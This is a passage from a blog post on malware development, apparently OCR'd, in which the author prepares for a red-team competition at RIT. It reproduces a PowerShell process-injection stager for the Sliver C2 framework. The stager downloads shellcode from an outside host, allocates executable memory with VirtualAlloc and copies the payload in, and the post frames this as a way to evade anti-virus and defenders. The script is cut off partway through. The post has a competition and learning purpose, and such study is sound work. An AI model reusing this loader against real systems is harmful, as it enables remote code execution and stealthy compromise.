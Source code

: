 ```yaml
---
date: 2025-01-06
title: "Evading Anti-Virus With Sliver C2 AES Encryption and Compression Process Injection - Malware Development #1"
categories: Malware Development
tags:
  - maldev
  - sliver
toc: true
---
```


# Background

This upcoming spring semester me and a few team members are competing in the Information Security Talent Search (ISTS) Competition hosted by the Rochester Institute of Technology. It is a three-day attack and defend competition, where teams compete in a King of the Hill style challenge by hacking and defending against other teams to keep their critical services such as HTTP, SMTP, and SNMP up for points.

The competition rules strictly prohibit the use of any anti-virus applications, but as a red-teamer, that doesn't mean you start being noisy and dropping files to disk. At the end of the day, there's some poor blue-team log bunny on the other end of the terminal picking up on the signatures and heuristics you are creating, itching to boot you off their system.

I didn't participate in ISTS last year, but the previous red-teamers left me a few scripts, one of which was a local process injection to gain a shell through a stage-listener provided by the C2 framework, sliver. (See source below) \[Update: I have learned this script was created by Dominic Breuker in a [blog post](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)] 

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress,
    uint dwSize,
    uint flAllocationType,
    uint flProtect);
[DllImport("kernel32", CharSet=CharSet.Ansi)]
public static extern IntPtr CreateThread(
    IntPtr lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr lpParameter,
    uint dwCreationFlags,
    IntPtr lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]
public static extern UInt32 WaitForSingleObject(
    IntPtr hHandle,
    UInt32 dwMilliseconds);
}
"@
Add-Type $Win32

$shellcode = (New-Object System.Net.WebCLient).DownloadData("http://login.magic-box.dev:8080/balls.woff")
if ($shellcode -eq $null) {Exit};
$size = $shellcode.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x1000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $size)
```